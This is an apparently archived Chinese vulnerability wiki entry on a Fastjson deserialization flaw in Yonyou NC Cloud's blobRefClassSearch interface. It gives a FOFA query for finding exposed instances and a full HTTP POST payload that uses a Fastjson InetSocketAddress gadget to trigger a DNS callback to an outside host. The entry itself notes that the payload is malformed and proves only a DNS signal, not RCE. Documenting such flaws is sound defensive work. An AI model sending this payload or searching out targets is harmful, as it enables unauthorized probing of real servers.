


# 用友NC Cloud blobRefClassSearch Fastjson DNS迹象

## 条目说明

- 对象与具体问题：用友NC Cloud；blobRefClassSearch Fastjson DNS迹象
- 版本、配置及部署条件：Fastjson/JDK/gadget版本未知
- 认证与权限前提：无Cookie样例
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- InetSocketAddress域名回连仅支持DNS迹象，不证明RCE
- clientParam内层异常JSON需保留原样并解释解析前提；重复User-Agent
- 在野利用及修复链接缺原厂通告证据

## 操作风险

命令/代码执行示例可能改变主机状态。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

## 漏洞描述

用友 NC Cloud blobRefClassSearch 接口处存在FastJson反序列化漏洞，未经身份验证的远程攻击者可通过该漏洞在服务器端任意执行代码，写入后门，获取服务器权限，进而控制整个web服务器。

影响范围

用友-NC-Cloud

## **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 原文提供部分细节 | 见技术资料 | 未独立核验 | 待来源核实 |

> 归档原表（原作者主张，未独立核验）：上表记录本库当前核验边界；下表保留归档中的公开情况和在野利用声明，不能据此认定本库已验证。
>
> | 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
> |------|-------|-------|------|
> | 是 | 已公开 | 已公开 | 已知 |

### 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 中 |
| 利用难度 | 低 |

## 漏洞复现

FOFA：app="用友-NC-Cloud"

POC/EXP：

```http
POST /ncchr/pm/ref/indiIssued/blobRefClassSearch HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.4103.116 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.4103.116 Safari/537.36
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Content-Type: application/json

{"clientParam":"{\"x\":{\"@type\":\"java.net.InetSocketAddress\"{\"address\":,\"val\":\"xxxhld.eyes.sh\"}}}"}
```








## 修复方案

关闭互联网暴露面或接口设置访问权限

厂商已发布了漏洞修复程序，请及时关注更新：

http://www.yonyougz.com/yonyou/yonyou-nc/


---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
